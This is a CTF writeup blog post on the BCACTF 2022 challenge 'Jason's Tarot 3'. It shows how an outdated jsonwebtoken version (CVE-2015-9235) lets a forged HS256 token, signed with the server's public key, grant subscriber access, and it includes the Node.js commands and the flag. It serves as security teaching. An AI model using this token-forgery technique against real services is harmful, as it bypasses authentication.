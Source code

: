 ```yaml
---
layout: post
title:  "Jason's Tarot 3 (Web Challenge Writeup) -- BCACTF 3.0 2022"
date:   2022-06-06
image: /bcactf22/logo.png
---
```

<p class="intro"><span class="dropcap">B</span>CACTF 2022 took place on June 3 to 6, 2022. It was 72 hours of challenges and exceptional support from the organizers. This WEB challenge is perfect to demonstrate why it is important to keep all the software we use up to date. The security of the software supply chain is of great importance following multiple far-reaching cyber attacks in recent years.</p>


#### Challenge Description: 

<figure>
        <img src="/assets/img/bcactf22/chall2.png" alt="" />
        <figcaption>Challenge Description</figcaption>
</figure>

We see that we were given three files to review: a public key certificate, a package.json and the server.js, 

We review the server.js

<figure>
        <img src="/assets/img/bcactf22/server-js.png" alt="" />
        <figcaption>server.js</figcaption>
</figure>

and, most important, review the package.json

<figure>
        <img src="/assets/img/bcactf22/package-json.png" alt="" />
        <figcaption>package.json</figcaption>
</figure>

just as we did with [Jason's Web Tarot 2](https://leonuz.github.io/blog/Jasons-Web-Tarot-2/) challenge, we started loading the page with Burpsuit intercepted ON to capture the JSON Web Token (JWT) 

<figure>
        <img src="/assets/img/bcactf22/web.png" alt="" />
        <figcaption>Main site</figcaption>
</figure>

To decode the header and payload parts we use a web tool called [jwt.io](https://jwt.io)

<figure>
        <img src="/assets/img/bcactf22/jwt-io.png" alt="" />
        <figcaption>jwt_io</figcaption>
</figure>

Like the [Jason's Web Tarot 2](https://leonuz.github.io/blog/Jasons-Web-Tarot-2/) challenge, we need to become subscribed users to the application, to do this, we need to change (in the JWT) the value of the `"isSubscriber"` variable from its current value, `False`, to a new one, `True`. 

In the review of the package.json file, we notice that the *jsonwebtoken* version its 3.2.2, this version its outdated and vulnerable!!

<figure>
        <img src="/assets/img/bcactf22/CVE-2015-9235.png" alt="" />
        <figcaption>CVE-2015-9235</figcaption>
</figure>

So in order to exploit that vulnerability, we need to build a new HMAC(HS256) token using the public key as a secret to it. 
We used nodejs jsonwebtoken module to do this 


{%- highlight bash -%}
┌──(leonuz㉿sniperhack)-[~/Downloads/ctf/bcactf/JWT]
└─$ node
Welcome to Node.js v16.14.2.
Type ".help" for more information.
> const jwt = require('jsonwebtoken')
undefined
> var fs = require('fs')
undefined
> var publicKey = fs.readFileSync('./public.pem');
undefined
> var token = jwt.sign({ "isSubscriber": true, "iat": 1654387812  }, publicKey, { algorithm:'HS256'});
undefined
> console.log(token)
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDM4NzgxMn0.jAwGD9e6JahpPHJZMfULiToDy12M9WaMoI_18hSZDko
undefined
{%- endhighlight -%}

Now we have the new JWT

<figure>
        <img src="/assets/img/bcactf22/burp-req.png" alt="" />
        <figcaption>New JWT token</figcaption>
</figure>

Now, all that remains is to substitute the new token in the request and send the new request. 
We use the function ["Repeatear" of Burpsuit](https://portswigger.net/burp/documentation/desktop/tools/repeater/using) to do that.

<figure>
        <img src="/assets/img/bcactf22/burp-flag2.png" alt="" />
        <figcaption>Send new Token and get the Flag</figcaption>
</figure>


And we get the flag!  

<figure>
        <img src="/assets/img/bcactf22/flag2.png" alt="" />
        <figcaption>Flag</figcaption>
</figure>


#### bcactf{w3_d3f1n3tly_d1dnt_h4v3_t0_ch4ng3_th1s_101010101010}

- - -
## Final Notes.  

[NIST](https://www.nist.gov/) recently released several key deliverables relating to cybersecurity. These focus on secure software development and new consumer labeling programs as contemplated by President Biden’s Executive Order 14028, which seeks to implement multiple new practices to improve the Nation’s cybersecurity.

More Info [here](https://www.jdsupra.com/legalnews/nist-releases-new-guidance-on-software-8128301/)

- - -
Thanks [BCACTF](https://www.bcactf.com/) for this great CTF, congratulations to the whole team!.  

For fun and knowledge, always think out of the box! :)

<figure>
        <img src="/assets/img/bcactf22/cert.png" alt="" />
</figure>
